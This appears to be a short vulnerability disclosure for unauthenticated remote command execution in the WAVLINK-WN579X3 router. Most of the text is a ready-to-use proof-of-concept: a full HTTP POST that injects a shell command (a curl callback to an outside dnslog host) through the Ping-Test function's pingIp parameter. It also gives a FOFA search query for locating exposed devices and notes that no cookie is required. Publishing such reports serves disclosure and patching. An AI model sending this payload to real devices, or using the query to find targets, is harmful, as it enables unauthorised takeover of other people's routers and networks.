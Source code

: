 A remote command execution vulnerability has been found in WAVLINK-WN579X3 

fofa:app="WAVLINK-WN579X3"

POC below:
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: ******
Content-Length: 83
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://122.213.241.75
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://122.213.241.75/ping.shtml?r=32723
Accept-Language: zh-CN,zh;q=0.9
Connection: close

page=ping_test&CCMD=4&pingIp=255.255.255.255%3Bcurl+http%3A%2F%2Fnhjt4ugt.dnslog.pw
```

The vulnerable function is the Ping-Test function, an attacker can execute arbitrary system command by malicious injection to parameter pingIp.


Reproduce:
![1](https://github.com/sleepyvv/vul_report/assets/55875284/dab7c21b-33cf-4832-9aec-80ea512774cf)


An unauthorized attacker can also exploit it without a cookie in http request header.
